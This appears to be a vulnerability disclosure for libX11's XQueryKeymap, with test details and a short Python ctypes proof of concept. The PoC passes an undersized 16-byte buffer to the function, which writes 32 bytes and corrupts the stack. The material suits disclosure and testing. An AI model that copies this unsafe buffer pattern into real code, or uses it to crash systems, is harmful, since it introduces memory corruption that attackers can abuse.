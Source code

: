 =================================================================== 

 X11/libX11.so.6 (XQueryKeymap) Stack corruption/Access violation [PoC+ Fuzzer]

    - 0day: 03/06/2017
    - Vulnerable (tested) library: libx11-6 / Version: 2:1.6.4-3
    - Debian package: libx11-6_1.6.4-3_amd64.deb (8ad41adbd147ffe4bf64c50efcac497b) 
    - Tested at: Intel/x86_64 - Debian 4.9.25-1 (stretch)

----------

The XQueryKeymap() function returns a bit vector for the logical state of the keyboard, where each bit set to 1 indicates that the corresponding key is currently pressed down. The vector is represented as 32 bytes. Byte N (from 0) contains the bits for keys 8N to 8N + 7 with the least-significant bit in the byte representing key 8N. 

    XQueryKeymap(display, keys_return)
       Display *display;
       char keys_return[32];

--------

#### Vulnerable code (example):

    #!/usr/bin/python
    import ctypes as ct
    from ctypes.util import find_library
    x11 = ct.cdll.LoadLibrary(find_library("X11"))
    display = x11.XOpenDisplay(None)
    print "CT.C:", ct.c_char * 16
    keyboard = (ct.c_char * 16)()
    print "Display:", display
    x11.XQueryKeymap(display, keyboard)
